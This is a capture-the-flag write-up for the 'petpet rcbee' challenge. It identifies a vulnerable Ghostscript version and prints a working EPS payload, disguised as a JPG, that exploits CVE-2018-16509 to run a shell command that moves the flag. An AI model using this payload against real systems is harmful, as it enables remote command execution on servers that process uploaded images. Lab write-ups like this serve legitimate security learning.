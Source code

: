 # petpet rcbee

Ok so we start with that nice little page:

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

While looking at the files we can see a version of ghostscript:

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I find this CVE for that version: [https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So what this we can try and move the flag to a directory we control, on the main web page we see those links:

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's create a fake jpg file and move the flag to a directory we can access ->

```
└──╼ [★]$ cat rce.jpg 
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%mv /app/flag /app/application/static/assets)
currentdevice putdeviceprops
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and then we get the flag here: view-source:http://{IP}:{PORT}/static/assets/flag
